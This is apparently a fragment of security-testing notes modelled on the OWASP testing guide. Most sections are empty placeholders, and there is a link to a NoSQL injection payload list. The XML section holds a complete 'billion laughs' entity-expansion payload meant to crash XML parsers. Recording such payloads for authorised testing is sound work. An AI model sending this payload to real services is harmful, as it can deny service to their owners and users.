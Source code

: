 #### 4.7.5.4 Testing PostgreSQL

❗❗❗MISSING❗❗❗

#### 4.7.5.5 Testing for MS Access

❗❗❗MISSING❗❗❗

#### 4.7.5.6 Testing for NoSQL Injection

❗❗❗MISSING❗❗❗

 - `NoSQLMap` (... then follow the assistant)
 - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection 

#### 4.7.5.7 Testing for ORM Injection

❗❗❗MISSING❗❗❗

#### 4.7.5.8 Testing for Client-side

❗❗❗MISSING❗❗❗

### 4.7.6 Testing for LDAP Injection (WSTG-INPV-06)

❗❗❗MISSING❗❗❗

### 4.7.7 Testing for XML Injection (WSTG-INPV-07)

#### XXE 

**DOS / full example:**

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "BOOM" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">
  <!ENTITY aa "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">
  <!ENTITY ab "&aa;&aa;&aa;&aa;&aa;&aa;&aa;&aa;&aa;&aa;">
  <!ENTITY ac "&ab;&ab;&ab;&ab;&ab;&ab;&ab;&ab;&ab;&ab;">
  <!ENTITY badstuff "&ac;&ac;&ac;&ac;&ac;&ac;&ac;&ac;&ac;&ac;">
]>
<profile_data>
  <name>Peter</name>
  <email>&badstuff;</email>
</profile_data>
```
